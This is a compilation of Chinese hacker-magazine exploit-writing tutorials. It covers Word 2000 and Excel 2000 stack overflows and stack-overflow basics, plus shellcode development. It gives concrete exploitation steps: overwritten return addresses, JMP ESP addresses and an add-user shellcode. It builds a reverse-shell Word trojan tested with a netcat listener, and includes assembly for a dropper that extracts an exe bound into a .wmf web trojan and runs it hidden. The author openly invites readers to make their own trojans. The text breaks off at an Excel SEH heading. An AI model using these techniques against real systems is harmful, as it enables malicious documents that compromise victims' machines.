当然，这里只是测试，大家还可以通过宏实现更加复杂的功能。如果要在文件刚打开或保存时执行某功能，则将宏名取为 AutoOpen 或 AutoSave 等。如果宏是由 VBA 编写的破坏性代码，则可称之为“宏病毒”。

接下来谈谈 Word 宏的安全机制。Word 2000 通过安全等级来控制宏的执行，安全等级分为无、中、高 3 级（Word 2003 中有“极高”），分别代表启用任何宏、由用户选择是否启用宏以及取消任何宏。现在大多数 Word 2000 默认的安全等级是中（部分新版 Word 默认安全级别为高），用户打开带有宏的 doc 文件后会弹出提示框，如图6所示。图6

如果选择“取消宏”，则 doc 文件中的宏不会执行，而选择“启用宏”则执行；当宏安全级别为高的时候，无论怎样，宏都不会执行。

整理一下：如果 Word 宏安全级别为默认设置的话，宏要么需要用户选择启用，要么被取消。这种宏安全机制是可以理解的，否则宏病毒将会泛滥。若想让 Word 在打开 doc 文档时就执行任意代码，需要研究在不同安全级别下都可触发执行的方法。

在熟悉了宏机制之后，继续分析漏洞。既然是宏名溢出，就在建立宏时把宏名称写得很长。虽然这里有长度限制（超过 255 个字符 VBA 会报错），但可在 test.doc 中把宏名称设置为 176 个字符，如图7所示。

```vb
Sub aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa...
    MsgBox "OK!"
End Sub
```

图7

保存后再打开该文件，结果发现还是可以执行宏代码，并没有发生异常。看起来在 Word 程序里手动构造超长宏名称行不通。于是修改 test.doc 继续测试：打开 UltraEdit，将 test.doc 拖入编辑框，如图8所示。图8

## 分析 doc 文件格式——小有收获

Word 2000 文件格式微软并没有公开，要彻底分析无疑有相当的难度。但这条路又不得不走，于是我顺理成章地在网上搜索，先后找到了 Word 6.0 和 Word 97 的 doc 文件格式介绍；同时也找到了一些研究人士的简单分析资料。通过这些资料，再结合 Word 2000 与 Word 97 的相似性进行分析，我对 doc 文件格式有了进一步的了解。以 Word 2000 生成的 doc 文件为例，这里简单谈谈。

我们平时见到的文档格式大致分两类：一类是标记型文档，如 HTML、XML、PDF 等；另一类是流式文档，如 doc。doc 文档是复合二进制文档，可以包含文字格式、图片、声音、动态图像、宏等多种格式信息数据，这些数据在 doc 文件中是以流（Stream）的形式存储的，也就是存储方式与数据具体格式无关。每个文件都以固定 8 字节“D0 CF 11 E0 A1 B1 1A E1”开头，并以 512 字节为数据的基本存储单位。这种复合信息数据的存储方式与磁盘文件的组织方式类似，因此 doc 文档又称为“文件中的文件系统”。

在 test.doc 中，有两处紧连着，并且是 Unicode 形式给出的，分别为全小写和全大写，如图9所示。此外，下面还有一处，保存了完整的 ASCII 形式的宏名称，如图10所示。图9，图10

那么，在 Word 打开 doc 文件的时候，究竟是通过哪一处来识别宏名称的呢？可以肯定的是上面 3 处之一，因此现在我们又需要再次判断了。判断的方法很简单：在 UltraEdit 中依次把这 3 处宏名称的第一个字符由“a”改为“b”，保存之后再打开 test.doc；Alt+F8 调用宏，检查宏名称第一个字符是否改为了“b”。如果改变则说明该处就是 Word 解析的宏名称。经过多次测试，发现 Unicode 小写形式的宏名称就是我们要找的目标，如图11所示。图11

根据漏洞公告，我们把宏名称增长几个“a”，保存后再打开 test.doc，还是出现了图6所示的宏提示框，但无论点击“取消宏”还是“启用宏”，都没有出现什么异常，而是弹出下列提示框，如图12所示。图12

我选择继续增加“a”，但还是同样的结果，这可能是由于新增数据破坏了 doc 文件中其它数据引起的。哎，越来越不清楚了，直觉告诉我，一条漫长的道路就摆在面前——必须分析 doc 文件格式，然后寻求漏洞解法。后来事实证明，这个时候我离调试成功并不太远了。图13

对 doc 文件格式有了这样一个总体认识之后，我们来仔细分析 test.doc。这里给大家介绍一个工具——DFView.exe。这个工具是专门用来解析文件格式的，位于 vc 目录\Common\Tools\下。为方便使用可设置快捷方式。使用 DFView.exe 需要注意的是它不能解析中文路径，因此最好把待解析的 doc 文件放在英文目录里。这里我用 DFView.exe 打开：\test.doc，如图14所示。图14

大家可以看到，这个工具把 test.doc 中的二进制数据按照存储（如 Macros）与流（Stream）的形式划分好了。

将其逐个展开，发现我们前面找到的 Unicode 小写形式的宏名称就在 1Table 这个流中，该流记录了多种格式信息，如图15所示。图15

但是这并没有带来什么实质性的进步。不要着急，我们再看看 WordDocument 这个流。按照 Word 97 的分析资料说明，WordDocument 以一个 FIB（File Information Block）数据结构开头，FIB 记录了复合文件中各种数据结构信息，如图16所示。图16

在该结构偏移 0x15A 处，记录了 1Table 流中存放的宏信息的位置偏移值，test.doc 中该偏移值是 0x180。于是我们在 1Table 流中偏移 0x180 的地方，找到了 FF 01，也就是宏名称信息的“标记”，如图17所示。图17

当分析到宏名称信息的标记的时候，我想起了前段时间看到的一篇文章叫《寻找客户端漏洞的艺术》。这篇文章网上到处都可以找到，作者分析了 IE、Firefox、Outlook、MSN 等客户端程序解析图片文件时出现的溢出漏洞的共性。下面我们先来看看这些漏洞的共性，看了之后大家应该可以想到一些东西。

### 对比同类漏洞模式——柳暗花明

前面所指的共性是指文件中信息存储的格式引起的。无论 JPEG、GIF、PNG 等图片格式还是 doc 文件格式，其数据流由很多段构成（例如宏名称信息就是一个段），而这些段的格式基本都是下面这一个模式：

在客户端程序解析这些文件格式的时候会依据“标记”来确认段，并可能对“数据长度”进行一定的运算，再依据这些“数据长度”来处理随后的“数据”。以上提到的几个漏洞产生原因都是在对“数据长度”进行运算的时候没有进行长度确认而导致的。

举个例子。相信大家还记得 2004 年的 JPEG 溢出漏洞 MS04-028，JPEG 格式中的注释段（COM）由 0xFFFE 开始（标记）+2 字节的注释段字节数（数据长度）+注释（数据）构成，因为字节数这个数值包含了本身所占的 2 字节，所以 GDIPLUS.dll 在解析 JPEG 格式文件中的注释段时会把这个值减去 2，如果这个值设置成 0、1 就会产生整数溢出，从而造成后来的堆溢出漏洞。

回到我们这个 Word 漏洞，按照刚才那个格式来对比。其中，上面找到的 FF 01 是“标记”，那么“数据长度”呢？大家可以看到“Proj...”前面有两字节长度 0x00C2，这就是我们要找的“数据长度”，这个数值是包括了“Project,NewMacros.”之后的宏名称长度。在 0x00C2 后面，就是真正的宏名称了。通过对比同类漏洞的模式，我们知道了通过增加宏名称数据来造成溢出的方法是不正确的，而是应该将宏名称前面的“数据长度”值增大，Word 在按照改后的“数据长度”拷贝宏名称的时候发生了溢出。

好，现在基本清楚了该漏洞的原理，下面继续调试。

### 坚持不懈——调试成功

将宏名称前面的“数据长度”由 0x00C2 增大为 0x00D0，保存了再打开 test.doc，结果发现还是出现了图11所示的提示框，头已经比较晕了，但是仍然不能放弃。现在把“数据长度”改得更大一些，改为 0x0350。保存再打开 test.doc，点击“取消宏”后终于弹出了久违的异常对话框，如图18所示。图18

呵呵，有希望！看来可能是发生了堆栈溢出，因为如果是堆溢出的话，应该会提示内存不能为“write”。为了验证这一结论，我们使用调试器。平时我都习惯使用 SoftICE，在调试这个漏洞的过程中我发现其实 VC 也是漏洞调试的好工具，前提是机器上必须安装 VC。就利用图18弹出的异常对话框，点击“取消”，调出了 VC 调试器，如图19所示。图19

这个时候观察下堆栈中的数据，在内存查看框中，输入 ESP，回车，如图20所示。图20

看来宏名称的确被拷贝到了堆栈中，再观察 EBP（0012C2EC）指向的内存，如图21所示。图21

由上面两图，EBP 指向的内存位于宏名称后面，ESP 指向内存位于宏名称前面，因此明显可以判断发生的异常不是由于问题函数返回到错误地址产生的，而是在返回之前就发生了异常。在这种情况下，我们一般先覆盖 SEH 结构来尝试漏洞利用。这里就需要用到 SoftICE 了，因为 VC 调试器中不能查看 SEH 结构在堆栈中的位置。通过 SoftICE，发现 SEH 结构地址是 0x0012FFB0，与当前堆栈指针位置相距了 10000 多字节，拷贝这么多字节到堆栈中会覆盖掉堆栈中其它线程函数数据，经过测试，覆盖 SEH 果然是行不通的。那么现在尝试 JMP ESP 方式，没想到新的问题又不断出现。

### 尝试利用——频遇难题

在图21中，我们其实已经将问题函数的返回地址在堆栈中的位置找到了，就位于 0x0012C2FC，对应的四字节数据就是图中的阴影部分。要使用 JMP ESP 的方式，就必须保证问题函数返回之前不能出现异常。要怎样才能做到呢？看来只能将“数据长度”减小，这里减小到 0x0235（测试的实际最大值），保存后打开 test.doc，还是出现了异常对话框，点击“取消”，再次进入 VC 调试器，查看各寄存器，如图22所示。图22

此时 ESP=0x0012C328，而 EBP=0x86019006。请大家对比观察图21中 EBP 指向内存的四字节数据，可以得出的结论是问题函数已经返回了，而这里的异常是函数返回之后出现的。函数返回的问题顺利解决了，下一步是判断问题函数为 __stdcall 还是 __cdecl 的调用约定。这个问题直接决定了在 0x0012C2F4 这个地址[函数返回前 EBP+8]上放 ShellCode，还是需要有若干字节的保留地址。检测的方式也很简单，将问题函数 EIP 改为 0xABABABAB，返回后在 VC 调试器中观察 ESP 即可。按照这种方法，发现返回后 ESP=0x0012C328，其实也就是图22中看到的 ESP 值，EIP 保存在 0x0012C2F0，那么中间将会有 0x0012C328-0x0012C2F0=0x38 字节的保留地址。OK，将 test.doc 中 EIP 保存位置添加 JMP ESP 指令地址 0x7FFA4512，在堆栈数据 0x0012C328 的对应处填写指令 EB FE，保存后再打开 test.doc，结果让人失望，仍然弹出了异常对话框。再将 0x7FFA4512 改为 Windows 2000 SP4 上特有的 JMP ESP 指令地址再测试，还是不行。经过一番分析，发现原来 EB FE 的位置其实超出了我们 0x0235 的宏名称极限长度。换句话说，JMP ESP 方式在本漏洞中还是行不通。

如果这个漏洞既不能用 JMP ESP 方式利用，也不能用覆盖 SEH 结构方式利用的话，大家还有什么办法吗？有的，而且是很原始的——将 EIP 直接填写为堆栈地址。

### 反复调试——完美利用

将 test.doc 中 EIP 保存位置四字节数据改写为 0x0012C2F4，这个地址对于同一文件模板（如 test.doc，a 的个数不同则该地址不同）在 Windows 2000 和 XP SP0 是不变的，在 XP SP1、SP2 中应该是 0x0013C2F4。然后在该位置后面 4 字节填写 EB FE，保存后打开 test.doc，CPU 使用率为 100%，成功了！如果大家想构造自己的 Word 木马，都可以通过 test.doc 这个模板来做了。

此外，由于宏名称长度限制在 0x0235 字节左右，ShellCode 必须采用 JMP BACK 的方式。下一个问题，ShellCode 怎么加到 doc 文件中去呢？我用 VC 写了两个小程序 readdoc 和 newdoc。readdoc 的功能是读取 doc 数据到指定文件中，而 newdoc 的作用是将 readdoc 读出的数据中加入 ShellCode，然后生成新的 doc 文件。这两个程序的实现都很简单，大家可以参考文章附带代码。至于 ShellCode 的编写，大家可以参考我前面的一些文章，写得很清楚了。只是测试时我发现了一个问题：开始的时候用 sub esp,80H 来规划内存，但是每当后面调用 LoadLibraryA 和 GetProcAddress 这两个函数的时候，会使后面的指令全部变为无效指令（乱码），费了很大的功夫，结果发现用 sub esp,1000H 的时候问题就解决了。

最后，我和大家一起测试一下我自己制作的一个反弹端口的 Word 木马 suc_2ksp4.doc。先执行“NC -L -P 25”，再打开 suc_2ksp4.doc，结果如图23所示。图23

测试成功！这是在 Windows 2000 SP4 下的测试，同时我还做了一个针对 Windows XP SP2 + Word 2000 的版本 suc_xpsp2.doc，大家如果有兴趣也可以测试下。至此为止，这个漏洞就给大家分析完了，它的应用范围是比较广的，可以与木马绑定相结合。

### 小结

本文中，我和大家一起回顾了我分析和利用 Word 溢出漏洞的经过，希望对大家能有所帮助。其实这个漏洞涉及到了很多的知识点和调试技巧，再次说明了只有把基础打牢，才能解决问题的道理。同时，也照常欢迎大家和我交流。

## 菜鸟版 Exploit 编写指南之二——Windows 堆栈溢出全面解析

文/曹军 dangguai27


本人前面写的多期文章都是堆栈溢出类的具体漏洞分析和 ShellCode 编写，而有朋友希望我能写点入门级的文章。今天就和大家一起，来全面解析 Windows 下堆栈溢出的具体细节及利用过程……

顺序也是从右至左，但堆栈恢复是子函数返回时自己通过 `Ret n` 指令来完成的。如果以前大家没有注意到这些基础知识，可能理解起来不很清晰……这些知识对我们溢出漏洞的利用有较为明显的影响。

### 基础知识

函数调用时堆栈的变化。用高级语言编写程序时，函数调用是很常见的事情，但大家却很少观察函数调用的汇编代码是如何实现的。事实上实现过程很简单：

- 1. 父函数将函数的实参按照从右至左顺序压入堆栈。  
- 2. CPU 将父函数中函数调用指令 `Call xxxx` 的下一条指令地址 EIP 压入堆栈。  
- 3. 父函数通过 `Push Ebp` 将基址指针 EBP 值压入堆栈，并通过 `Mov Ebp, Esp` 将当前堆栈指针 ESP 值传给 EBP。  
- 4. 通过 `Sub Esp, m`（m 是字节数）指令为局部变量开辟内存。  

函数调用约定对函数调用及返回时堆栈变化的影响。Windows 系统下常见的函数调用约定有两种：`__cdecl` 和 `__stdcall` 调用方式……

### 实例解析

大家看看下面这个具有溢出漏洞的示例代码 1，调试环境是 Windows 2000 SP4 + VC6.0。

```c
#include "windows.h"
#include "stdio.h"
#include "string.h"

int fun(char *szIn, int nTest)
{
    char szBuf[8];
    printf("%d\n", nTest);
    strcpy(szBuf, szIn);
    return 0;
}

int main()
{
    char sz_In[] = "1234567890abcdefghijklmnopqrstuvwxyz";
    fun(sz_In, 888);
    return 0;
}
```

编译、执行，弹出异常对话框，如图 1 所示。


显然是发生了堆栈溢出，这是从直观的角度进行了解。大家花 1 分钟时间看下程序代码，然后我们来仔细看看这个溢出的发生细节……

单步调试状态，再按 Alt+8，进入汇编模式，如图 2 所示：


高级语言第 15 行代码 `char sz_In[] = "1234567890abcdefghijklmnopqrstuvwxyz"`，前面是 Main 函数的启动代码。这里可以看到调用主函数时堆栈的变化。一直按 F10，直到第 16 行高级语言代码 `fun(sz_In, 888)` 处停下来，这里是重点，如图 3 所示。


现在可以看到，Main 函数通过 `Call @ILT+0(fun)`（00401005）调用 Fun 函数。在该指令前有两个 Push 操作，这两条 Push 指令将 Fun 的两个实参按从右到左顺序压栈。继续按 F10 到 Call 停下，再用 F11 跟进，跳到 00401005；该处是跳转到 Fun（00401020），如图 4 所示。


进入 Fun 函数第一条指令是 `Push Ebp`，保存基址指针。执行前可观察当前堆栈顶 4 字节为 `0x004010B6`，即 Call 后面的 `Add Esp, 8` 地址，也就是返回地址 EIP。继续执行后，`Mov Ebp, Esp` 使当前 EBP 指向父函数 EBP 保存位置，用于访问参数和局部变量；`Sub Esp, 48h` 为局部变量分配栈空间。继续到 `Call Strcpy` 后停下，`Strcpy` 使用 `__cdecl` 调用约定，因此调用完成后由调用者通过 `Add Esp, 8` 恢复栈。

通过 `Add Esp, 8` 来恢复堆栈。此时查看 `EBP+4` 指向的栈地址（函数返回地址 EIP），其值变为 `0x66656463`，即被覆盖的数据，如图 5 所示：


函数返回后将跳转到该地址执行，而该地址上的指令无效，因此会发生访问错误。到这一步，既验证了前面的基础知识，也展示了栈溢出过程。接着讨论利用方式：常见有 `JMP ESP` 与覆盖 SEH 结构。这里先讲 `JMP ESP`：若将覆盖 EIP 的 4 字节改为 `JMP ESP` 地址，并在后面填充 ShellCode，函数返回后便会执行 `JMP ESP` 跳转到 ShellCode。示例代码 2 中，ShellCode 功能是创建用户，跳转地址示例为 `0x7ffa4512`，如图 6 所示。

```c
char sz_In[] = "1234567890ab...\x12\x45\xfa\x7f"
"\xEB\x10\x5A..."
"\xEB\x05\xE8\xEB\xFF\xFF\xFF";
// adduser:x pass:x
```

图 6

关于 ShellCode 编写可参考现成资料。这里强调调用约定关系：前文示例使用 `__cdecl`，因此 Fun 返回后由 Main 执行 `Add Esp, 8` 恢复栈。若改为 `__stdcall`，则 Fun 在返回时通过 `Ret 8` 自行恢复，此时跳到 `JMP ESP` 时 ESP 位置不同（相对 EBP 偏移变化），覆盖数据中 ShellCode 位置也需顺延并用 NOP 填充。对应示例代码 3 如图 7 所示。

```c
char sz_In[] = "1234567890ab...\x12\x45\xfa\x7f..."
"\xEB\x10\x5A..."
"\xEB\x05\xE8\xEB\xFF\xFF\xFF";
// adduser:x pass:x
```

图 7

这个例子到此结束。实际漏洞通常更复杂，特别是远程溢出；但更应重视原理与方法的掌握，只有理解透彻才能进一步深入研究。

适合读者：溢出爱好者

前置知识：Win32 溢出基础

## ShellCode 自动化提取的设计与实现

文／图 刘奇


最近因为学习的需要，研究了几天 PE 文件结构，看得我头晕眼花。在分析 PE 结构的同时也写了些小程序辅助分析，学习效果还不错。其中有段小插曲，因为自己的疏忽使得程序一个小错几天没排除……

```c
pFile = fopen(File, "r+");
if (NULL == pFile)
{
    printf("Open file failed\n");
    exit(0);
}
```

这么几行代码有问题吗？肯定没有。慢着慢着，就这么看当然没有问题，可如果需要打开的是一个二进制文件呢？上面的打开方式就错了，应该为“rb+”……

| 地址 | 十六进制数据 |
|---|---|
| 0040102D | 68 48 19 42 00 E8 39 ... |
| 00401034 | 07 00 00 83 C4 08 89 ... |
| 0040103B | 45 FC 83 7D FC 00 75 ... |
| 00401042 | 14 68 24 19 42 00 E8 ... |
| 00401049 | B3 05 00 00 83 C4 04 ... |
| 00401050 | 6A 00 E8 19 04 00 00 ... |

图 1

复制出来，保存到文件，然后用 UltraEdit32 打开……整个过程看似比较简单，但是 ShellCode 是有特定严格要求的代码，往往一次不能成功，整个过程需要反复做多次……

假设我们的 ShellCode 是这样的（下面的 ASM 前缀只要写一次加上大括号就可以了，但是我已经写好了，不想改）……

```asm
ShellCode_start:
_asm pushad
// 获取 kernel32.dll 的基址
_asm mov eax, fs:[0x30]
_asm mov eax, [eax + 0x0c]
_asm mov esi, [eax + 0x1c]
_asm lodsd
_asm mov eax, [eax + 0x08]
...
GetProcAddress:
_asm mov ebp, eax
_asm mov eax, [ebp + 3ch]
_asm mov edx, [ebp + eax + 78h]
...
_asm mov eax, 0x50746547
_asm cmp [esi], eax
_asm jne search
...
LoadLibraryA:
_asm push ebp
_asm sub esp, 50h
...
_asm push 0x0 // 即 "\0"
_asm push DWORD PTR 0x41797261
_asm push DWORD PTR 0x7262694c
_asm push DWORD PTR 0x64616f4c
_asm push esp // 压入 "LoadLibrary\0" 的地址
_asm push edi // edi: kernel32 的基址
_asm call [ebp + 40h] // 通过值(P) LoadLibrary 的地址
_asm mov [ebp + 44h], eax // 保存 LoadLibrary 的地址
_asm mov esp, ebp
_asm add esp, 0x50
_asm popad
Shell_code_end:
```

要提取 ShellCode，肯定要先编译成二进制代码。假如我们能写一个程序来识别编译好的二进制代码中的 ShellCode 起始地址和结束地址，并按指定要求加以转换，不就实现自动化了吗？……想法虽然简单却也可行。

更好的想法是这样的，一般我们的 ShellCode 都是用汇编写的，而汇编代码不引用绝对地址通常不需要重定位……整个过程完全自动化。


我们需要的只是 Shell_code_start 和 Shell_code_end 之间的代码，而标号 Shell_code_start 实际上就是地址……如果我们能够自动提取 ShellCode 起始和结束地址之间的数据并且转化为十六进制，那么最后加上引号就能达到目的。

```text
created: 2006/01/10
created: 10:12 2006-2-13:37
filename: PE.c
author: Liu Qi
version: 02
purpose: ShellCode 的自动化提取
```

```c
#include <windows.h>
#include <stdio.h>
#include <assert.h>

#define SHELL_CODE_FILE "ShellCode.txt"
int main(int argc, char *argv[])
{
    FILE *pFileShellCode;
    int i;
    char *PtrTo_Shell_code = NULL;
    int extra_data_real_length;

    pFileShellCode = fopen(SHELL_CODE_FILE, "w+");
    if (NULL == pFileShellCode) { printf("Open Shell code file failed\n"); exit(0); }

    goto GetShellCode;
Shell_code_start:
    /* ShellCode 代码 */
Shell_code_end:

GetShellCode:
    _asm pushad;
    _asm lea eax, Shell_code_start;
    _asm mov PtrTo_Shell_code, eax;
    _asm lea edx, Shell_code_end;
    _asm sub edx, eax;
    _asm mov extra_data_real_length, edx;
    _asm popad;

    fputc('"', pFileShellCode);
    for (i = 0; i < extra_data_real_length; i++) {
        fputc('\\', pFileShellCode);
        fputc('x', pFileShellCode);
        fprintf(pFileShellCode, "%2X", (unsigned char)PtrTo_Shell_code[i]);
    }
    fputc('"', pFileShellCode);
    printf("ShellCode 长度: %d\n", extra_data_real_length);
    fclose(pFileShellCode);
    return 0;
}
```

代码写出来竟然是惊人的短小，看来思想才是最重要的……“思想有多远就能走多远”。现在效果已经出来了，如图 2 所示。


适合读者：溢出爱好者

前置知识：ShellCode 基础

## 菜鸟版 Exploit 编写指南之三十二：能够生成木马的 ShellCode

文/图：海军 danggui27


最近一个朋友在 WMF 漏洞利用的 ShellCode 编写上遇到了麻烦。他需要编写的 ShellCode 功能是将绑定在 `.wmf` 文件中的 `.exe` 文件提取、生成并自动执行。经过一整天的努力，这个问题基本部分解决了，但仍然存在一点疑惑，正好写下本文和大家分享。

### 基础知识

- 1. exe 文件已经绑定到了 `.wmf` 文件中。怎么绑定呢？通过 Copy 命令：`copy /b old.wmf+aa.exe new.wmf` 即可。  
- 2. 绑定木马之后的 `.wmf` 其实是与 HTML 文件一起作为网页木马来应用的。用户通过 IE 打开畸形的 `new.wmf` 文件之前，会先将该文件连同 HTML 文件一起下载到系统的 IE 临时文件夹 TIF（Temporary Internet Files）中。真正的 IE 临时文件位于 `TIF\Content.IE5` 下，本例中的 `new.wmf` 位于本机的 `Temporary Internet Files\Content.IE5\...` 目录中，文件名通常会变成 `new[1].wmf`。  

OK，有了基础知识，接下来我们看看 ShellCode 的设计思路。

### ShellCode 设计思路

- 1. 查找 ShellCode 可用到的各 API 函数地址。  
- 2. 找到临时文件 `new[1].wmf` 的绝对路径，通过 CreateFileA 函数打开该文件，并创建文件 `aa.exe`。  
- 3. 通过 SetFilePointer 函数让 `new[1].wmf` 文件指针指向 `aa.exe` 文件数据开始的地方（即 “MZ”）。  
- 4. 循环从 `new[1].wmf` 中读取数据写入 `aa.exe`。  
- 5. 执行生成的 `aa.exe`。  

过程并不复杂，关键是细心。接下来大家看着汇编实现。本例在 Windows 2000 SP4 + VC6 下编译通过。

### 汇编实现及待改进的问题

1. API 函数地址。最好在画流程图的时候就确定有哪些 API 函数会用到，并进行合理的内存规划，如图 1 所示。其中 GetProcAddress 这个函数地址最重要……其余函数查找的部分代码如下：


```c
mov [ebp+2Ch], eax ; GetProcAddress
mov dword ptr [ebp], 'TteG'
mov dword ptr [ebp+4], 'Ppme'
mov dword ptr [ebp+8], 'Ahta'
mov byte ptr [ebp+0Ch], 0
push ebp
push ebx
call [ebp+2Ch]
...
mov dword ptr [ebp+28h], eax ; CreateFileA
...
call [ebp+20h] ; SetFilePointer
...
```

```c
// 查找 ReadFile 和 WriteFile 函数地址
mov dword ptr [ebp], 'daeR'
mov dword ptr [ebp+4], 'eliF'
...
call [ebp+2Ch] // 返回 ReadFile 地址
...
call [ebp+2Ch] // 返回 WriteFile 地址
...
call [ebp+2Ch] // 返回 WinExec 地址
...
call [ebp+2Ch] // 返回 CloseHandle 地址
...
call [ebp+2Ch] // 返回 ExitThread 地址
```

```c
comp:
inc ecx
cmp byte ptr [ebx+ecx], 0x00
jnz comp
...
// 将路径中的 temp 替换为 temporary Internet Files\Content.IE5\...\new[1].wmf
mov dword ptr [ebx+ecx], 'raro'
...
call dword ptr [ebp+24h] // CreateFileA
cmp eax, 0
je gameover
...
call dword ptr [ebp+24h] // CreateFileA
cmp eax, 0
je gameover
```

2. 找到临时文件 `new[1].wmf` 的绝对路径，通过 `CreateFileA` 打开该文件。通过 `GetTempPathA` 可找到系统临时文件夹，进一步定位 `new[1].wmf` 的绝对路径，部分代码如下：

```c
// 留出空间保存将来存放长的数据
sub esp, 0x800
mov esi, esp
...
// 调用 GetTempPathA，获取系统临时文件夹
push ebx
push 64h
call dword ptr [ebp+28h]
```

3. 通过 `SetFilePointer` 函数让 `new[1].wmf` 文件指针指向 `aa.exe` 文件数据开始的位置，部分代码如下：

```c
// SetFilePointer 设置文件偏移 (exe 文件位置)
push 0
push 0
push 0x527D // exe 文件数据开始处
mov eax, dword ptr [ebp+30h] // wmf 文件句柄
push eax
call dword ptr [ebp+20h] // SetFilePointer
```

4、循环从 new[1].wmf 中读取数据写入 aa.exe，部分代码如下：

```asm
mov dword ptr [ebp+40h],0 ; 保存每次实际读取的数据
mov dword ptr [ebp+44h],0 ; 保存每次实际写入的数据
Read_Write_exe:
push 0
lea eax, dword ptr [ebp+40h]
push eax
push 0x400 ; 每次预定读取 1024 字节
push esi ; 存放每次读取后数据的缓冲区地址
push dword ptr [ebp+30h] ; wmf 文件句柄
call dword ptr [ebp+1Ch] ; ReadFile
push 0
lea eax, dword ptr [ebp+44h]
push eax
push dword ptr [ebp+40h]
push esi
push dword ptr [ebp+34h] ; exe 文件句柄
call dword ptr [ebp+18h] ; WriteFile
; cmp byte ptr [ebx],1
; jz Read_Write_exe
cmp dword ptr [ebp+44h], 0x400 ; 判断是否读写完毕
jge Read_Write_exe
; 关闭 wmf 和 exe 文件句柄
push dword ptr [ebp+30h]
call dword ptr [ebp+38h] ; CloseHandle
push dword ptr [ebp+34h]
call dword ptr [ebp+38h] ; CloseHandle
```

5、执行生成的 aa.exe，并退出线程。部分代码如下：

```asm
push 0 ; SW_HIDE
push ebp
call dword ptr [ebp+14h] ; WinExec
gameover:

; ExitThread
push 0
call dword ptr [ebp+3Ch] ; ExitThread
```

汇编代码就是这样，大家按照前面多期文章介绍的方法可以完成 ShellCode 的提取，这里就不啰嗦了。最后还有一个问题，“Content.IE5\83SB61Q9”目录中的“83SB61Q9”是随机的，不同的机器有所区别。因此通用性问题是需要解决的，本文的侧重点是介绍实现的思路。

### 小结

本文介绍了提取绑定在文件中（如 .wmf）木马文件的 ShellCode 编写方法。提取绑定木马的 ShellCode 主要目的是以较短的 ShellCode 完成较复杂的功能，实际的复杂功能都是由木马文件来完成。它和传统 Down&Exec 的 ShellCode 相比，也很容易实现访问网络时突破防火墙。

- 适合读者：溢出爱好者
- 前置知识：溢出相关基础知识

## 菜鸟版 Exploit 编写指南之三十三：Excel 溢出漏洞分析+利用

文/图：曾军 / dangguai27 何永强


写 2006 年 2 期文章《Word 溢出漏洞分析与利用》时，我就想，既然 Word 都有漏洞，那么 Access、Excel 等其他 Office 软件是否也存在漏洞呢？果然，3 月中旬接连出现了几个关于 Excel 的“高危”级漏洞。我对这几个漏洞进行了一番分析，发现它们的确很难利用。但黑客精神的精髓就在于有规划地永不放弃，于是想到了和朋友一起从研究早些时候的一个 Excel 溢出漏洞入手，写下了本文。

搜索了一下，发现网上已经有了此漏洞的简单分析。原来是 Excel 在处理表名称长度的时候存在堆栈溢出漏洞。该漏洞针对 Microsoft Excel 2000 SP3 及以下版本。但经过仔细琢磨，我发现该分析文章写得不详细，也不太准确，同时没有提供 Exploit。根据以往漏洞调试经验，下面我们还是先从了解 Excel 文件格式起，进而涉及到漏洞的分析。

### 漏洞起因


漏洞公告如图 1 所示。通过漏洞公告我们不能得到什么有用的信息，但在 Google 上耐心地搜……

图 1.

## Excel 文件格式简介

Excel 的文件格式和 Word 一样同属于复合型文档，每个文件都是以固定 8 字节“D0 CF 11 E0 A1 B1 1A E1”开头，并以 512 字节为数据的基本存储单位，以低字节优先存储的。文件数据组成结构分为：目录、索引和单元块。单元块中的数据域存储格式是：标记（Code）| 数据长度（Length）| 数据（Name）。

文件按格式分块的查看工具 xlspure.exe，如图 2 所示。


图 2

以图 2 中的第一个数据域（均以十六进制表示）为例，Code 是 09 08，Length 为 10，Name 为 00 06 05 00 17，在文件中相应的位置如图 3 所示。


图 3

### 漏洞调试与分析

新建一个 Excel 文档，用 UltraEdit32 打开，根据漏洞公告，找到 Sheet 标志处，如图 4 所示。


图 4

其中，0x0085 是标记，0x000E 是数据域的总长度，表名称长度为 0x0006，我们要修改的就是表名称长度。经过测试发现，此漏洞与 XLS 文件名长度有关。考虑到字节数要求，文件名取为“我爱北京天安门天安门上太阳升伟大领袖毛主席.XLS”。如果该长度在 22-44 字节之间，当其长度修改为 0x0FFF 左右时就会触发整数溢出，进而触发堆栈溢出漏洞。在 Windows 2000 SP4 + VC6 环境下进行调试，如图 5 所示。


图 5

出现了如图 6 所示的异常提示框，这和我们以往调试堆栈溢出漏洞时出现的情况差不多。


这种情况下，表名称长度是无符号整数，但当我们构造一个负数，memcpy 函数会把长度值转换成正数来拷贝表名称到堆栈中，从而导致溢出的产生。问题代码通过 IDA Pro 对 EXCEL.exe 反汇编后得到，如下：

```asm
3003FBD3 8B400C        mov eax, dword ptr [eax+0C]
3003FBD6 FF7008        push [eax+08]
3003FBD9 8D8560FCFFFF  lea eax, dword ptr [ebp+FFFFFC60]
...
30034F3E 55            push ebp
30034F3F 8BEC          mov ebp, esp
30034F41 81EC04020000  sub esp, 00000204
...
30034F5C 8945FC        mov dword ptr [ebp-04], eax
30034F5F 0FB706        movzx eax, word ptr [esi]
30034F62 8D440002      lea eax, [eax+eax+02]
30034F66 50            push eax
30034F67 8D85FCFDFFFF  lea eax, dword ptr [ebp+FFFFFDFC]
30034F6D 56            push esi
30034F6E 50            push eax
30034F6F E8C4AEFDFE    call MSO9!memmove
```

接下来我们来看异常提示中的 0x01907FFF 在 XLS 文件中的位置，这一步是关键。在 Excel 文档中搜索到 FF 7F 90 01，如图 7 所示。


图 7

一般情况下会搜索到好几处 FF 7F 90 01，通过不同的微修改，我们可以最终确定在图 7 中的焦点位置。进一步分析，这个位置储存了 Excel 的字体属性，而 0x019 表示“Font Weight”，要对该漏洞进行利用的话，可以将该值修改为我们可控制的 ShellCode 地址。

### 漏洞利用

### 1. 通过 JMP ESP 跳转到 ShellCode

堆栈溢出漏洞最直接的利用方式就是覆盖 EIP，但正如调试 Word 溢出漏洞的情况一样，有两个问题需要注意：

- 通用 JMP ESP 指令地址在这个进程中不能被识别，因此只能使用与系统版本相关的 JMP ESP 指令地址。
- 由于导致溢出漏洞的函数的调用约定是 stdcall，因此 EIP 与 ShellCode 之间应该有一些保留字节。

解决了上述两个问题，填充我们的 ShellCode 进行测试，结果发现会破坏后面的字体属性数据结构，看来覆盖 EIP 的方式行不通。

### 2. 覆盖 SEH 结构

